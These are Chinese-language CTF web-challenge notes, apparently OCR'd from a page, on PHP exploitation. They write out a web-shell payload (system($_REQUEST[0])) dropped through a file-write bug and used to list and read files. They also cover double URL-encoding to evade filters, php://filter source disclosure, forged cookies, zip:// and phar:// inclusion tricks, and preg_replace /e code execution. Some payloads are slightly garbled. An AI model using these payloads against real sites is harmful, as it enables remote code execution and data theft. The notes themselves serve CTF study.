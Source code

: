     页面3
    使用path=http://127.0.0.1/&filename=1.txt
      写文件到upload目录下, 访问这个1.txt
    尝试 path=http://127.0.0.1/xxx.php?usern3me=<?php info();?>&filename=1.txt
      发现可以访问，但是需要编码。
    尝试 path=http://127.0.0.1/xxx.php?usern3me=<?php system($_[REQUEST[0]);?>&filename=1.txt
    改成PHP文件 path=http://127.0.0.1/xxx.php?usern3me=<?php system($_[REQUEST[0]);?>&filename=1.php
      用Hackbar上面的Encoding进行URL编码。空格要2次编码
      %20 改成 %2520
      %3D 是 =
    直接用它来执行命令 path=http://127.0.0.1/1.php?0=ls ../ 找到flag文件
    查看 path=http://127.0.0.1/1.php?0=cat ../flag_is_here.php 查看源代码
    https://www.freebuf.com/vuls/116705.html

    读取文件
    php://filter/read=convert.base64-encode/resource=show.php
    Burp Suite - Decoder 中可以解base64,

    构造Cookie问题
    ?line=1&filename=show.php
    用bp暴破， line=1字段 读取每一行 ，整合代码发现需要构造 Cookies: margin ,读取keys.php
    添加header头 Cookie: margin=margin;
        filename=xxx替换成filename=keys.php的base64编码，读取完成。

## phar/zip 协议

关于 phar 的格式：https://blog.csdn.net/u011474028/article/details/54973571

关于 phar://的利用：https://xz.aliyun.com/t/2715

[[CISCN2019 华北赛区 Day1 Web1]Dropbox](https://www.jianshu.com/p/5b91e0b7f3ac)

压缩为 zip 改为 jpg

```
test.zip
  ┗━━php.jpg

http://example.com/include/include2.php?file=zip://test.zip#php

phar://php.zip/php.jpg
```

[[CISCN2019 华北赛区 Day1 Web1]Dropbox](https://www.jianshu.com/p/5b91e0b7f3ac) 1.任意文件下载, index.php, download.php, register.php, class.php, delete.php,

## preg_replace() /e 代码执行漏洞, 与双引号执行

[[BJDCTF2020]ZJCTF，不过如此](https://blog.csdn.net/qq_43622442/article/details/106018883)
https://www.cnblogs.com/wangtanzhi/p/12328083.html

```php
preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")', // 双引中的\\1会执行
        $str
    );
```
